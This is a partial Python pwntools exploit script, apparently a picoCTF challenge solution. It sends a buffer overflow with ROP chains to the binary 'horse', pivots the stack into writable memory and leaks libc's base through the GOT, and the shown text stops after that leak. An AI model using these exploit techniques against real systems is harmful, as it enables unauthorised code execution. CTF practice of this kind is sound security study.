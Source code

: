 ```python
#!/usr/bin/env python3

from pwn import *
import time
import re
exe = ELF("horse")

context.binary = exe
context.terminal = "kitty"

pop_rdi = 0x0000000000400c03
pop_rsi_r15 = 0x0000000000400c01
pop_rsp_r13_r14_r15 = 0x0000000000400bfd

offset_read = 0x0000000000111130
offset_mmap = 0x000000000011ba20

def conn():
    if args.REMOTE:
        return remote("mars.picoctf.net", 31809)
    elif args.GDB:
        return gdb.debug([exe.path],gdbscript="b *main+58\nc\nni 3\nfin\nni 5\nfin\nni 10\nfin\nni 5\nfin\nni 20\nfin\nni 3\nfin\nni 5")
    else:
        return process([exe.path])


def main():
    r = conn()


    # call strlen to get big number in rdx (i didn't bother to look at the source i just know it works lol)
    # read a second, larger ROP chain into writable program memory
    # pivot onto that program memory
    payload = b"A" * 40
    payload += p64(pop_rdi)  + p64(0x400ce0) + p64(exe.symbols['strlen'])
    payload += p64(pop_rdi) + p64(0)
    payload += p64(pop_rsi_r15) + p64(0x602000) + p64(0)
    payload += p64(exe.symbols['read'])
    payload += p64(pop_rsp_r13_r14_r15) + p64(0x602000)
    r.send(payload)
    r.recvuntil("/     /   ")
    r.recvline()


    # leak libc base by writing GOT
    # call read again so we can write another ROP chain with libc gadgets
    # pivot stack onto our new chain


    payload = b"A" * 24 # need padding bc our stack pivot gadget has three pops between pop rsp and ret
    payload += p64(pop_rdi) + p64(1)
    payload += p64(pop_rsi_r15) + p64(exe.got["read"]) + p64(0)
    payload += p64(exe.symbols['write'])
    payload += p64(pop_rdi) + p64(0)
    payload += p64(pop_rsi_r15) + p64(0x6020c0) + p64(0)
    payload += p64(exe.symbols['read'])
    payload += p64(pop_rsp_r13_r14_r15) + p64(0x6020c0)
    payload += p64(0)
    r.sendline(payload)
    read_address = u64(r.recv(8))
```